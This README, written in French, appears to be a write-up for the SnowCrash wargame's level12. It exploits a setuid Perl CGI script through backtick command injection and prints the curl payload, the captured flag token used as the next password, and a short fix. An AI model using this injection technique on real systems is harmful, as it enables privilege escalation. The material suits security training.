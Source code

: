 # README - Exploitation du script level12.pl (CGI Perl)

## Étapes suivies pour obtenir le Flag12

### 1. Identification des fichiers

Le répertoire contient un fichier principal :

```bash
level12@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
```

- **`level12.pl`** : Un script Perl CGI exécutable avec permissions `setuid` et `setgid`, s'exécutant avec les privilèges de l'utilisateur `flag12`. Il implémente un serveur web simple sur le port 4646.

### 2. Analyse du script `level12.pl`

En lisant le script avec `cat level12.pl`, on observe :

- Il crée un serveur CGI sur `localhost:4646` et accepte les paramètres `x` et `y` via `param()`.
- La fonction `t()` exécute : `@output = `egrep "^$xx" /tmp/xd 2>&1`;` pour rechercher une ligne dans `/tmp/xd` commençant par `$xx` (basé sur `param("x")` après sanitization).
- Le serveur tourne déjà avec les droits de `flag12` (vérifiable avec `netstat -tlnp | grep 4646`).

Test simple :
```bash
level12@SnowCrash:~$ curl localhost:4646/?x=test&y=test
.
```

### 3. Exploitation de la vulnérabilité

La vulnérabilité réside dans l'utilisation des backticks dans la ligne `@output = `egrep "^$xx" /tmp/xd 2>&1`;`, où `$xx` (dérivé de `param("x")`) est inséré directement dans une commande shell sans échappement suffisant. Bien que le sanitization (`tr/a-z/A-Z/` et `s/\s.*//`) limite les entrées aux majuscules et supprime tout après le premier espace, les backticks permettent d'exécuter des commandes arbitraires en injectant une sous-commande (ex. : via `` ` ``).

- Le serveur possède les privilèges de `flag12`, et l'utilisation d'un fichier comme `/tmp/TOKEN` avec un wildcard (`/*/TOKEN`) permet d'exécuter son contenu (ex. : `getflag > /tmp/flag12`) avec ces privilèges, capturant ainsi le token.

### 4. Injection de commande

Crée un fichier avec une commande :
```bash
level12@SnowCrash:~$ echo 'getflag > /tmp/flag12' > /tmp/TOKEN
level12@SnowCrash:~$ curl localhost:4646/?x='`/*/TOKEN`'
..level12@SnowCrash:~$ cat /tmp/flag12
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

Exemple avec élévation de privilèges :
```bash
level12@SnowCrash:~$ echo 'whoami > /tmp/who' > /tmp/TOKEN
level12@SnowCrash:~$ curl localhost:4646/?x='`/*/TOKEN`'
..level12@SnowCrash:~$ cat /tmp/who
flag12
```

### 5. Passage à l'utilisateur suivant

Utilise le mot de passe récupéré pour passer directement à `level13` (si applicable) :
```bash
level12@SnowCrash:~$ su level13
Password: g1qKMiRpXf53AWhDaU7FEkczr
level13@SnowCrash:~$
```

### Vulnérabilité expliquée

Le script Perl utilise des backticks (`@output = `egrep "^$xx" /tmp/xd 2>&1`;`) pour exécuter une commande shell avec l'input utilisateur (`$xx` basé sur `param("x")`) non suffisamment sanitizé. Bien que `tr/a-z/A-Z/` et `s/\s.*//` limitent les entrées (majuscules uniquement, suppression après espace), l'injection de `` `/*/TOKEN` `` permet d'exécuter le contenu de `/tmp/TOKEN` comme une commande. Les permissions `setuid/setgid` élèvent les privilèges à `flag12`, permettant d'exécuter `getflag` avec succès. Une correction impliquerait d'échapper l'input (ex. : `quotemeta($xx)`) ou d'éviter les backticks au profit d'une exécution contrôlée (ex. : utiliser une bibliothèque Perl native).

---

### Explications supplémentaires
- **Wildcards** : Le wildcard `/*/TOKEN` est évalué par le shell pour trouver `/tmp/TOKEN`, et son contenu (`getflag > /tmp/flag12` ou `whoami > /tmp/who`) est exécuté, exploitant la vulnérabilité.
- **Différence avec injection directe** : Une injection comme `` `getflag` `` échoue car la commande s'execute directement avec level14 comme utilisateur.
